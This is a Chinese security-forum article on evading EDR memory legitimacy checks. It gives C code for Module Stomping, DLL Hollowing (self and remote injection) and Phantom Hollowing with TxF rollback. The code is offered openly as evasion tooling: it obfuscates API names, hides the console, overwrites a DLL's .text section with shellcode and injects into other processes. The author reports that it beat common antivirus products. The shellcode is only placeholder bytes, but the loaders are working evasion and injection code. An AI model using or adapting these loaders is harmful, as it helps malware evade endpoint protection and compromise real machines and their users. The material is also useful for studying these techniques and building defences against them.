


# EDR对抗之内存合法性检查规避-先知社区

> **来源**: https://xz.aliyun.com/news/18653  
> **文章ID**: 18653

---

## 概述

书接上文，在浅析-从系统调用到自定义堆栈中我梳理从传统系统调用到自定义堆栈调用的演化逻辑，结合了示例代码与实践对抗杀软的一些效果，实测对抗国内的常见杀软有显著效果，无法被检测，但是放在云沙箱上还是能被个别引擎标记为红




### 背景

随着 EDR 的普及和能力提升，传统的内存注入与执行手法逐渐变得不再安全。尤其是在内存合法性检查技术越来越成熟的背景下，攻击者将 payload 注入到 MEM\_PRIVATE 或 MEM\_MAPPED 类型的内存区域并赋予执行权限（RX），几乎都会成为明显的 IOC

本文我将从内存合法性检查规避入手，从常见的防检测方法开始，逐步分析为什么它能够绕过部分检测，又为什么仍然存在潜在 IOC，最后引出 Phantom Hollowing 的改进方法，展示其如何规避 EDR 的内存合法性检查。

### 实验环境

Visal Studio 2022，Win11

## 内存合法性检查的核心思路

在Windows系统中，每个内存区域都有一个Type字段，可以通过MEMORY\_BASIC\_INFORMATION获取：

* MEM\_IMAGE：从磁盘上加载的PE文件，属于合法的可执行代码区域
* MEM\_MAPPED：文件映射区域，一般用于共享内存
* MEM\_PRIVATE：通过NtAllocateVirtualMemory等API分配的私有内存

正常情况下：

* 程序的代码段总是在MEM\_IMAGE中
* 动态生成的数据一般在MEM\_PRIVATE或MEM\_AMPPED中，且不会有执行权限

因此EDR只需要关注：

1. 任何非MEM\_IMAGE页带有执行权限（RX）
2. MEM\_IMAGE页的权限被修改（例如NtProtectVirtualMemory调整RW->RX）
3. 由于写时复制机制导致代码段生成了MEM\_PRIVATE页

## Module Stomping

### 优点

* payload在MEM\_IMAGE内存区域，绕过了最明显的MEM\_PRIVATE+RX监测点
* 不需要VirutalAlloc分配空间

### 缺点

* 修改了合法DLL的代码段，导致内存于磁盘文件不一致，高级EDR会对比校验和
* 修改内存权限(RW->RX)可能会被捕获

### 基本原理

Module Stomping是最早的规避尝试之一，思路很简单：

* 加载一个DLL（最好不是常用DLL）
* 将payload覆盖写入该DLL的代码段
* 直接执行

### 代码：

代码是基于我的上一篇文章自定义堆栈内容中的代码修改，因其他内容不变，这里只列举main函数部分，

```
int main() {
    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, SW_HIDE);


    PVOID allocBuffer = NULL;
    SIZE_T buffSize = 0x1000; // 4096 字节


    char str_ntdll[20], str_NtAlloc[30], str_NtWrite[30], str_NtProtect[30], str_NtCreate[30], str_NtWait[30];
    char str_TpAlloc[20], str_TpPost[20], str_TpRelease[20], str_exp[20];
    decode(str_ntdll, enc_ntdll, sizeof(enc_ntdll), 0x2A);
    HANDLE hNtdll = GetModuleHandleA(str_ntdll);


    decode(str_NtWait, enc_NtWait, sizeof(enc_NtWait), 0x33);
    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, str_NtWait);
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
    sysAddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;


    HMODULE addr = LoadLibraryA("srvcli.dll");
    if (!addr) {
        return 3;
    }

    // 3. 定位 .text 段
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)addr;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection;
    int index = 0;


    do {
        pSection = (PIMAGE_SECTION_HEADER)(
            (DWORD_PTR)IMAGE_FIRST_SECTION(pNtHeaders) +
            ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * index++)
            );
    } while (strncmp((const char*)pSection->Name, ".text", 5) != 0);

    allocBuffer = (unsigned char*)((DWORD_PTR)pDosHeader + pSection->VirtualAddress);


    decode(str_TpAlloc, enc_TpAllocWork, sizeof(enc_TpAllocWork), 0x05);
    decode(str_TpPost, enc_TpPostWork, sizeof(enc_TpPostWork), 0x06);
    decode(str_TpRelease, enc_TpReleaseWork, sizeof(enc_TpReleaseWork), 0x07);
    FARPROC pTpAllocWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpAlloc);
    FARPROC pTpPostWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpPost);
    FARPROC pTpReleaseWork = GetProcAddress(GetModuleHandleA(str_ntdll), str_TpRelease);


    ULONG oldProtect = 0;
    decode(str_NtProtect, enc_NtProtect, sizeof(enc_NtProtect), 0x1F);
    NTPROTECTVIRTUALMEMORY_ARGS ntProtectVirtualMemoryArgs = { 0 };
    ntProtectVirtualMemoryArgs.pNtProtectVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtProtect);
    ntProtectVirtualMemoryArgs.hProcess = -1;
    ntProtectVirtualMemoryArgs.address = &allocBuffer;
    ntProtectVirtualMemoryArgs.size = &buffSize;
    ntProtectVirtualMemoryArgs.newProtection = PAGE_READWRITE;
    ntProtectVirtualMemoryArgs.oldProtection = &oldProtect;
    PTP_WORK WorkReturn4 = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn4, (PTP_WORK_CALLBACK)Work4Callback, &ntProtectVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn4);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn4);


    decode(str_NtWrite, enc_NtWrite, sizeof(enc_NtWrite), 0x13);
    SIZE_T bytesWirtten;
    encode(shellcode, sizeof(shellcode));
    NTWRITEVIRTUALMEMORY_ARGS ntWriteVirtualMemoryArgs = { 0 };
    ntWriteVirtualMemoryArgs.pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtWrite);
    ntWriteVirtualMemoryArgs.hProcess = -1;              // 当前进程
    ntWriteVirtualMemoryArgs.baseAddress = allocBuffer;     // 要写入的目标地址
    ntWriteVirtualMemoryArgs.buffer = shellcode;                 // 指向 shellcode 的缓冲区
    ntWriteVirtualMemoryArgs.size = sizeof(shellcode);           // shellcode 的大小
    ntWriteVirtualMemoryArgs.bytesWritten = &bytesWirtten;       // 实际写入的大小

    PTP_WORK WorkReturn2 = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn2, (PTP_WORK_CALLBACK)Work2Callback, &ntWriteVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn2);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn2);
    WaitForSingleObject((HANDLE)-1, 0x1000);


    NTPROTECTVIRTUALMEMORY_ARGS ntProtectVirtualMemoryArgs1 = { 0 };
    ntProtectVirtualMemoryArgs1.pNtProtectVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll), str_NtProtect);
    ntProtectVirtualMemoryArgs1.hProcess = -1;
    ntProtectVirtualMemoryArgs1.address = &allocBuffer;
    ntProtectVirtualMemoryArgs1.size = &buffSize;
    ntProtectVirtualMemoryArgs1.newProtection = oldProtect;
    ntProtectVirtualMemoryArgs1.oldProtection = &oldProtect;
    WorkReturn4 = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn4, (PTP_WORK_CALLBACK)Work4Callback, &ntProtectVirtualMemoryArgs1, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn4);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn4);

    HANDLE hThread = NULL;
    decode(str_NtCreate, enc_NtCreate, sizeof(enc_NtCreate), 0x22);
    //NtCreateThreadEx(&pi.hThread,GENERIC_EXECUTE, NULL, pi.hProcess, (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);
    NTCREATETHREADEX_ARGS threadArgs = {
    .pNtCreateThreadEx = (UINT_PTR)GetProcAddress(GetModuleHandleA(str_ntdll),str_NtCreate),
    .hThread = &hThread,
    .access = GENERIC_EXECUTE,
    .objectAttributes = NULL,
    .hProcess = -1,
    .startRoutine = (LPTHREAD_START_ROUTINE)allocBuffer,
    .argument = NULL,
    .flags = FALSE,
    .zeroBits = 0,
    .stackSize = 0,
    .maxStackSize = 0,
    .attributeList = NULL,
    };
    PTP_WORK WorkReturn = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)Work3Callback, &threadArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);

    //WaitForSingleObject(pi.hThread, INFINITE);
    NtWaitForSingleObject(hThread, FALSE, NULL);
    getchar();
}
```

相较于之前的代码，少了NtAllocateVirtualMemory，也就避免了RWX私有内存的高危特征，同时削弱了"Allocate->Wirte->Execute"的模块匹配。如果单独使用Module Stomping，其实效果很一般，但是结合间接系统调用和自定义堆栈，防检测的效果会大大提升



## DLL Hollowing

推荐文章：[SECFORCE - 安全不妥协](https://www.secforce.com/blog/dll-hollowing-a-deep-dive-into-a-stealthier-memory-allocation-variant/)

推荐项目：[SECFORCE/DLL-Hollow-PoC：DLL 空心 PoC - 远程和自 shellcode 注入](https://github.com/SECFORCE/DLL-Hollow-PoC)

### 优点

* 稳定性与隐蔽性更强
* Hollowing不会破坏目标进程已经依赖的DLL，不容易导致崩溃
* IOC主要在于模块注册/内存属性，可以修复

### 缺点

* 导入表未解析
* NtProtectVirtualMemory调用
* COW机制

### 基本原理

与Module Stomping直接修改现有模块不同，DLL Hollowing的基本步骤是：

* 找一个未加载的合法 DLL（系统目录下的任意 .dll），大小足够容纳 Payload。
* 用 `CreateFile`（或 syscall `NtCreateFile`）打开 DLL。
* 用 `NtCreateSection` 创建 **SEC\_IMAGE** 类型的 Section。
* 用 `NtMapViewOfSection` 把 DLL 映射到进程地址空间。
* 用 `NtProtectVirtualMemory` 改为 RW，写入 payload，再改回 RX。
* 用 `NtCreateThreadEx` 启动线程，执行 Payload。

由于DLL是通过SEC\_IMAGE映射的，其内存页类型为MEM\_IMAGE，因此绕过了最明显的内存检查

注入自身：

```
#include <windows.h>
#include <stdio.h>

int main() {
    // 1. 打开一个合法 DLL
    HANDLE hFile = CreateFileW(L"C:\Windows\System32\version.dll", GENERIC_READ,
        FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);

    // 2. 创建映射 (SEC_IMAGE 类型)
    HANDLE hSection = NULL;
    NTSTATUS status = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 0,
        PAGE_READONLY, SEC_IMAGE, hFile);


    // 3. 映射到当前进程
    PVOID baseAddress = NULL;
    SIZE_T viewSize = 0;
    status = NtMapViewOfSection(hSection, GetCurrentProcess(), &baseAddress,
        0, 0, NULL, &viewSize,
        ViewShare, 0, PAGE_READWRITE);


    // 4. 写入 payload
    unsigned char payload[] = {0xcc };

    SIZE_T payloadSize = sizeof(payload);
    memcpy(baseAddress, payload, payloadSize);

    // 5. 执行 Payload
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)baseAddress,
        NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);

    // 清理
    CloseHandle(hThread);
    CloseHandle(hSection);
    CloseHandle(hFile);

    return 0;
}
```

远程注入：

```
#include <windows.h>
#include <psapi.h>
#include <stdio.h>

// shellcode
unsigned char buf[] = {
    0x90, 0x90, 0xC3  // NOP NOP RET
};

int main() {
    INT pid = 111111; // 目标进程 PID
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("[-] OpenProcess failed (%lu)
", GetLastError());
        return -1;
    }

    // 1. 在共享内存中写入目标 DLL 路径
    HANDLE hSection = NULL;
    PVOID localAddr = NULL, remoteAddr = NULL;
    SIZE_T size = 0x1000;
    WCHAR dllPath[] = L"C:\Windows\System32\xwreg.dll";

    // NtCreateSection (此处假设你有 fNtCreateSection/fNtMapViewOfSection 封装)
    fNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER)&size,
        PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

    // 映射到本地和远程进程
    fNtMapViewOfSection(hSection, GetCurrentProcess(), &localAddr,
        0, 0, NULL, &size, ViewUnmap, 0, PAGE_READWRITE);
    fNtMapViewOfSection(hSection, hProcess, &remoteAddr,
        0, 0, NULL, &size, ViewUnmap, 0, PAGE_READWRITE);

    // 写入 DLL 路径
    memcpy(localAddr, dllPath, sizeof(dllPath));

    // 2. 在远程进程中调用 LoadLibraryW，加载 DLL
    LPTHREAD_START_ROUTINE pLoadLibraryW =
        (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
        pLoadLibraryW, remoteAddr, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    // 3. 获取目标 DLL 模块基址
    HMODULE hMods[1024];
    DWORD cbNeeded;
    HMODULE remoteModule = NULL;
    CHAR modName[MAX_PATH];

    if (EnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded)) {
        for (int i = 0; i < (cbNeeded / sizeof(HMODULE)); i++) {
            GetModuleBaseNameA(hProcess, hMods[i], modName, sizeof(modName));
            if (strcmp(modName, "xwreg.dll") == 0) {
                remoteModule = hMods[i];
                break;
            }
        }
    }
    if (!remoteModule) {
        printf("[-] DLL not found in remote process
");
        return -1;
    }
    printf("[+] DLL loaded at: %p
", remoteModule);

    // 4. 读取 PE 头，计算 DLL EntryPoint 地址
    BYTE header[0x1000];
    ReadProcessMemory(hProcess, remoteModule, header, sizeof(header), NULL);

    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)header;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(header + dos->e_lfanew);

    LPVOID entryPoint = (LPVOID)((DWORD_PTR)remoteModule +
        nt->OptionalHeader.AddressOfEntryPoint);

    printf("[+] DLL entrypoint: %p
", entryPoint);

    // 5. 覆盖 DLL 入口点，写入 shellcode
    WriteProcessMemory(hProcess, entryPoint, buf, sizeof(buf), NULL);

    // 6. 在远程进程中执行 shellcode
    HANDLE hExecThread = CreateRemoteThread(hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)entryPoint,
        NULL, 0, NULL);
    WaitForSingleObject(hExecThread, INFINITE);

    // 清理
    CloseHandle(hExecThread);
    CloseHandle(hSection);
    CloseHandle(hProcess);

    return 0;
}
```

注：为了方便理解，以上代码均做了简化处理

## Phantom Hollowing

推荐文章：[屏蔽恶意内存伪影 – 第一部分：幻影 DLL 空洞](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)

### 核心实现

Phantom Hollowing的核心思路是：不在内存中修改 DLL，而是在磁盘上预先修改 DLL 文件的 .text 段，再将其映射入内存。

* 使用TxF创建事务性文件句柄
* 在事务中修改DLL的.text段，将payload写入磁盘DLL
* 使用NtCreateSection(SEC\_IMAGE)将DLL映射到内存，此时payload已经存在与.text段，无需修改内存也就不会触发COW
* 回滚TxF事务，磁盘DLL恢复原样，痕迹消除

### 优点

* 避免了NtProtectVirtualMemory的可疑调用
* 避免COW机制生成的MEM\_PRIVATE页

### 缺点

1. 权限问题：大部分系统DLL在System32，需要高权限
2. 路径异常：如果拷贝到用户可写目录，如Temp，路径差距可能被检测
3. 版本不一致：内存中的DLL与磁盘的DLL检验不一致
4. TxF先知：在开启CIG的进程中，TxF已被禁用

简单示例代码：

```
int main() {
    HANDLE hTrans, hFile, hSection;
    PVOID localMap = NULL;
    SIZE_T viewSize = 0;
    LARGE_INTEGER li = { 0 };

    // 1. 创建事务
    hTrans = CreateTransaction(NULL, 0, 0, 0, 0, 0, L"PhantomTx");
    if (hTrans == INVALID_HANDLE_VALUE) {
        printf("CreateTransaction failed
");
        return -1;
    }

    // 2. 事务化方式打开 DLL
    hFile = CreateFileTransactedW(
        L"C:\Windows\System32\calc.exe",  // 示例目标DLL/EXE
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL,
        hTrans,
        NULL,
        NULL
    );

    if (hFile == INVALID_HANDLE_VALUE) {
        printf("CreateFileTransacted failed
");
        return -1;
    }

    // 写入 payload 覆盖 .text
    WriteFile(hFile, payload, sizeof(payload), &written, &ovl);

    // 3. 基于修改后的文件创建 Section
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    NtCreateSection_t NtCreateSection =
        (NtCreateSection_t)GetProcAddress(ntdll, "NtCreateSection");
    NtMapViewOfSection_t NtMapViewOfSection =
        (NtMapViewOfSection_t)GetProcAddress(ntdll, "NtMapViewOfSection");

    NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 0,
        PAGE_EXECUTE_READ, SEC_IMAGE, hFile);

    // 4. 将 Section 映射到当前进程
    NtMapViewOfSection(hSection, GetCurrentProcess(), &localMap, 0,
        0, NULL, &viewSize, 2, 0, PAGE_READWRITE);

    printf("[+] Phantom mapped at: %p
", localMap);

    // 5. 回滚事务（磁盘DLL恢复原样，但内存中仍是修改版）
    RollbackTransaction(hTrans);

    // ====== 此处可继续 DLL Hollowing 执行 ======
    // CreateRemoteThread(hTargetProcess, ... localMap+EntryPoint, ...);

    CloseHandle(hSection);
    CloseHandle(hFile);
    CloseHandle(hTrans);

    return 0;
}
```

## 总结

对抗 EDR 并不是单一技术的胜利，而是持续攻防博弈。攻击者不断寻找新的“合法执行”方式，EDR 也在逐渐增强内存完整性检测。没有绝对隐蔽的技术，只有更高级的对抗演进
